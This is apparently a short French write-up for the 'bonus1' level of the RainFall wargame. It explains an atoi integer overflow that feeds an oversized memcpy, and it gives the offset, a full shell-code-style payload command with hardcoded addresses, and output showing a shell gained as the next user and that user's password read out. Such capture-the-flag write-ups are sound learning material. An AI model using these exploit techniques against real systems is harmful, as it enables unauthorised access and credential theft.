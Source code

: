 # bonus1: ATOI OVERFLOW
> cette exploit conciste a overflow un atoi pour utiliser memcpy et passer par un nosled.

# OFFSET

>_*OFFSET:*_ -1073741803 * 4 = 84

# PAYLOAD

```bash
./bonus1 -1073741803 $(python -c 'print "A"*56 + "\xa4\x84\x04\x08" + "\xcc\xfc\xff\xbf"')
```

### EXEC
```bash
bonus1@RainFall:~$ ./bonus1 -1073741803 $(python -c 'print "A"*56 + "\xa4\x84\x04\x08" + "\xcc\xfc\xff\xbf"')
$ whoami
bonus2
$ cat /home/user/bonus2/.pass
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
```

TADA ! on y est presque ! :)